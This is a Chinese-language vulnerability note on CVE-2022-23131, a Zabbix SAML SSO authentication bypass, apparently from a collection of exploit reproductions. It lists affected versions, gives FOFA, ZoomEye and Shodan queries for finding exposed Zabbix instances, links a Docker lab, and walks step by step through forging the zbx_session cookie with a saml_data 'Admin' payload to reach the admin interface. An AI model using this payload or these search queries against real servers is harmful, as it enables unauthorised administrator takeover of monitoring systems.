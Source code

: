 # Zabbix SAML身份绕过漏洞 CVE-2022-23131

## 漏洞描述

Zabbix 是一个基于WEB界面的提供分布式系统监视以及网络监视功能的企业级的开源解决方案。

Zabbix 由两部分构成，Zabbix Server与可选组件 Zabbix Agent。Zabbix Server 可以通过 SNMP、Zabbix Agent、Ping、端口监视等方法提供对远程服务器/网络状态的监视、数据收集等功能，它可以运行在 Linux、Solaris、HP-UX、AIX、Free BSD、Open BSD、OS X等平台上。

在启用 SAML SSO 身份验证（非默认）的情况下，未经身份验证的攻击者可以通过修改Cookie数据，绕过身份认证获得对 Zabbix 前端的管理员访问权限。

## 漏洞影响

```
Zabbix 4.0.36
Zabbix 5.4.0
Zabbix 5.4.8
Zabbix 6.0.0alpha1
```

## 网络测绘

```
app="ZABBIX-监控系统" && body="saml"
```

### Zoomeye

```
title:"ZABBIX"
```

### Shodan

```
title="ZABBIX"
```

## 环境搭建

环境搭建：

- https://github.com/trganda/dockerenv/tree/master/vuln/zabbix/CVE-2022-23131

登录页面

![image-20220525164121127](images/202205251641192-16855817173634.png)

## 漏洞复现

检测该漏洞的主要步骤为：

- 获取 Set-Cookie 数据 zbx_session 参数的值

- 通过 URL 解码和 Base64 解码获得 zbx_session 参数 json 格式数据

- 通过在 json 中添加 saml_data 和 username_attribute 参数后重新 Base64 编码和 URL 编码构造 Payload

- 在请 HTTP 求头中添加构造的 Payload，然后请求 index_sso.php

- 若 HTTP 响应头中包含 Location 头，说明存在漏洞，可直接进入管理界面

获取 Set-Cookie 数据，通过 URL 解码和 Base64 解码，得到如下数据：

```
{"sessionid":"4e733c1344948aba99594418d500ea6f","sign":"njRfEFFQEnQl4F6oQDXxfVF6UYcroMsEPKCB6UzewMCnGQpzpZseaBgGxEzNJOtbMRtwQNKJCqAXccrwc6rxpw=="}
```

构造如下 Payload：

```
{"saml_data":{"username_attribute":"Admin"},"sessionid":"4e733c1344948aba99594418d500ea6f","sign":"njRfEFFQEnQl4F6oQDXxfVF6UYcroMsEPKCB6UzewMCnGQpzpZseaBgGxEzNJOtbMRtwQNKJCqAXccrwc6rxpw=="}
```

在 Burpsuite 中将通过 Base64 编码和 URL 编码后的 zbx_session 参数带入请求 index_sso.php，成功登录。

也可以在浏览器中替换Cookie，点击 SAML登录。

![image-20220525165011891](images/202205251650948.png)

